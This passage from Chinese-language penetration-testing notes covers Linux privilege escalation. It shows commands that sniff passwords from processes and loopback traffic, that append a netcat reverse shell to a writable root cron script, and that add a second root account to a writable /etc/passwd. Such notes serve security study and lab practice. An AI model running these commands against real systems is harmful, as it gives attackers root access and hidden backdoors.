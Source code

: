### 17.2.2 服务运行痕迹

监测进程中的敏感信息

```armasm
watch -n 1 "ps -aux | grep pass"
```

监测网络通信中的敏感信息

```armasm
sudo tcpdump -i lo -A | grep "pass"
```

## 17.3 不安全的文件权限

### 17.3.1 利用CRON

查看cron日志

```armasm
grep "CRON" /var/log/syslog
```

关注root定时运行的文件，找到后查看内容和权限

```armasm
cat /home/joe/.scripts/user_backups.sh
ls -lah /home/joe/.scripts/user_backups.sh
```

可写，插入一句话后门

```armasm
cd .scripts
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh
cat user_backups.sh

nc -lnvp 1234
```

### 17.3.2 利用密码校验

/etc/passwd可写

```armasm
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
Password: w00t
id
```

## 17.4 不安全系统组件
